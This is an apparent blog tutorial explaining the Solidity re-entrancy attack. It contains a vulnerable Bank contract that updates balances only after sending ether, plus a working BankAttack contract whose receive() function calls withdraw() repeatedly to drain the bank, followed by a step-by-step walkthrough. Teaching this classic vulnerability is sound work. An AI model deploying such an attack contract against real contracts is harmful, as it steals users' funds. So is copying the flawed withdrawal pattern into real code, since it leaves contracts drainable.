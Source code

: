 ```yaml
---
title: Solidity Attacks => Re-Entrancy
date: 2024-04-19 
categories: [solidity]
tags: [solidityattacks]     
description: Re-entrancy attack explained
---
```


Below is a vulnerable contract

```
pragma solidity ^0.8;

contract Bank {
    mapping(address => uint) balance;

    function deposit() public payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() public payable {
        require(balance[msg.sender] != 0, "No Balance");
        (bool success, ) = msg.sender.call{value: balance[msg.sender]}("");
        require(success, "Fail Sending");

        balance[msg.sender] = 0;
    }

    function getBalance(address _addr) public view returns (uint){
        return balance[_addr];
    }

    // The call will be put on hold till the receive function in the other contract is done executing, so 
    // if the recevie function calls withdraw() again the require(balance[msg.sender]!=0) is bypassed.
}

contract BankAttack {

    Bank bank;

    constructor(address _addr) payable {
        bank = Bank(_addr);
    }

    function deposit(uint val) public payable {
        bank.deposit{value: val}();
    }

    function attack() public {
        bank.withdraw();
    }

    receive() external payable { 
        if (address(bank).balance >= 1 ether) {
            bank.withdraw();
        }

        // If statement used because it more like loops. The new withdraw function will call receive again and so until balance is 0, withdraw() is called.
    }
}
```

- Bank contract is deployed, users send money to it and it has a total of 7 eth.
- Attacker deposit say 1 ether, so now attacker has a balance of 1 ether.

- BankAttacker calls the attack() function , it calls withdraw function since "balance[msg.sender] != 0" is true.
- Withdraw sends 1 ether to attackers receive function and the withdraw call frame after execution is paused until attacker's receive is executed.

- Now the receive function calls withdraw again, "balance[msg.sender] != 0" is still true because it comes after the call frame.
- The withdraw function again sends 1 ether to attackers receive function. Again the receive function calls withdraw(), still the balance is not updated.

So until "address(bank).balance >= 1 ether" is true this more like a loop keeps on going. The Bank Contract is no drained and the attacker has 8 eth now.
